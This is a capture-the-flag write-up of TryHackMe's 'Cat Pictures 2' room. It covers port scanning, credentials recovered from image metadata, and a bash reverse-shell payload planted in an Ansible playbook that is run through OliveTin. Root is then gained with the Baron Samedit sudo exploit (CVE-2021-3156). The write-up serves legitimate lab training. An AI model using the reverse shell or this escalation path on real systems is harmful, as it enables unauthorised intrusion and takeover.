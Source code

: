 # Cat Pictures 2 Writeup

This is a walkthrough of the Cat Pictures 2 CTF from TryHackMe. The room can be accessed [here](https://tryhackme.com/room/catpictures2).

## Recon

I started by running an Nmap scan to identify open ports on the target machine:

```shell
nmap -sV -sC -p- <#TARGETIP> -o nmap
```

The scan revealed the following open ports:

 - 22 - OpenSSH 7.6p1
 - 80 - Nginx 1.4.6 (Lychee version 3.1.1 photo album with cat pictures)
 - 222 - OpenSSH 9.0 (Unusual port)
 - 1337 - OliveTin (Web interface to run predefined shell commands)
 - 3000 - Gitea (Lightweight DevOps platform)
 - 8080 - Nginx default webpage (Possibly with subdirectories)

 ## Web Pages

 I began exploring the web applications hosted on different ports:

 - Port 80: Found a Lychee photo album with cat pictures.
 ![App Screenshot](https://willmaxcy.com/assets/imgs/catpics2/1.png?text=First+Pic)

 - Port 1337: Discovered OliveTin, a web interface to execute scripts and run Ansible Playbooks.

  ![App Screenshot](https://willmaxcy.com/assets/imgs/catpics2/2.png?text=First+Pic)

 - Port 3000: Accessed Gitea, a platform that might be hosting scripts and runbooks.

   ![App Screenshot](https://willmaxcy.com/assets/imgs/catpics2/3.png?text=First+Pic)

 - Port 8080: Default Nginx webpage, further inspection may reveal subdirectories.

   ![App Screenshot](https://willmaxcy.com/assets/imgs/catpics2/4.png?text=First+Pic)

After running gobuster and checking for vulnerabilities, nothing significant was found. So, I focused on the cat pictures hosted on port 80.

## Cat Pictures Analysis

I downloaded all the cat pictures and checked them for exif data using exiftool. One picture revealed interesting information of a text file on a subdomain of one of the web applications:

![App Screenshot](https://willmaxcy.com/assets/imgs/catpics2/5.png?text=First+Pic)

Visiting the URL led me to a text file with the following information:

![App Screenshot](https://willmaxcy.com/assets/imgs/catpics2/6.png?text=First+Pic)

I managed to gain access to the website with the credentials from the text file and explored the user's repository, where I found `flag1.txt` (1/3 flags).

![App Screenshot](https://willmaxcy.com/assets/imgs/catpics2/7.png?text=First+Pic)


## Ansible Playbook

Next, I inspected the `playbook.yaml` file and noticed it contains a shell command: `shell: echo hi`.

![App Screenshot](https://willmaxcy.com/assets/imgs/catpics2/8.png?text=First+Pic)

 Knowing that OliveTin on port 1337 allows running Ansible Playbooks, I replaced the command with simple `bash` reverse shell payload from [RevShells.com](https://revshells.com).

 ```
bash -i >& /dev/tcp/<#ATTACKERIP>/<#ATTACKERPORT> 0>&1
 ```

Setting up a NetCat listener and clicking "Run Ansible Playbook" triggered the payload, which gave me a shell on the box. Exploring the user directory file gave me another text file named flag2.txt (2/3 flags).

![App Screenshot](https://willmaxcy.com/assets/imgs/catpics2/9.png?text=First+Pic)

## Privilege Escalation

With a reverse shell on the target machine, I looked around for interesting files and uploaded `linpeas.sh` to find vulnerabilities. One stood out: **[CVE-2021-3156] sudo Baron Samedit**.

![App Screenshot](https://willmaxcy.com/assets/imgs/catpics2/10.png?text=First+Pic)

To exploit this, I downloaded the exploit, uploaded it to the target machine, compiled it with `make`, and executed the `./sudo-hax-me-a-sandwich` outfile to gain root access.

![App Screenshot](https://willmaxcy.com/assets/imgs/catpics2/11.png?text=First+Pic)

From here, I moved to the `/root` file directory and found the flag3.txt (3/3 flags).

Thanks for checking out my writeup! Feel free to reach out with any questions or comments.


## Feedback

If you have any feedback, please reach out to me at will@willmaxcy.com.


[![portfolio](https://img.shields.io/badge/my_portfolio-000?style=for-the-badge&logo=ko-fi&logoColor=white)](https://willmaxcy.com/)
[![linkedin](https://img.shields.io/badge/linkedin-0A66C2?style=for-the-badge&logo=linkedin&logoColor=white)](https://www.linkedin.com/in/willmaxcy)
